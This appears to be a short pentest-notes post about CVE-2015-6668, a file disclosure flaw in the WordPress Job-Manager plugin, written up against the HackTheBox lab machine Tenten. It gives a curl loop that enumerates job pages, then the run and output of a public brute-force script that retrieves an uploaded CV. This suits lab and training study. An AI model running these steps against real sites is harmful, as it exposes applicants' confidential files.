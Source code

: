 ```yaml
---
layout: post
title: Wordpress Job-Manager Plugin File Disclosure
description: Wordpress Job-Manager Plugin File Disclosure
summary: Wordpress Job-Manager Plugin File Disclosure
tags: [foothold,wordpress,web]
minute: 1
---
```

## Overview
Vulnerable versions of job-manager plugin can allow attacker to retrieve confidential files such as CV.

CVE-2015-6668

## Environment Setup
* Wordpress running job manager plugin 0.7.25.

## Steps
* Check what available are the available job titles

```bash
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://tenten/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```

* Using this [script](https://github.com/1nf1n17yk1ng/CVE-2015-6668), brute force the possible files you can retrieve from the uploads directory

```bash
➜  exploit python2 brute.py
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.

CVE-2015-6668
Title: CV filename disclosure on Job-Manager WP Plugin
Blog: https://vagmour.eu
Plugin URL: http://www.wp-jobmanager.com
Versions: <=0.7.25

Enter a vulnerable website: http://tenten
Enter a file name: HackerAccessGranted
[+] URL of CV found! http://tenten/wp-content/uploads/2017/04/HackerAccessGranted.jpg
➜  exploit 
```

## References
* HTB Tenten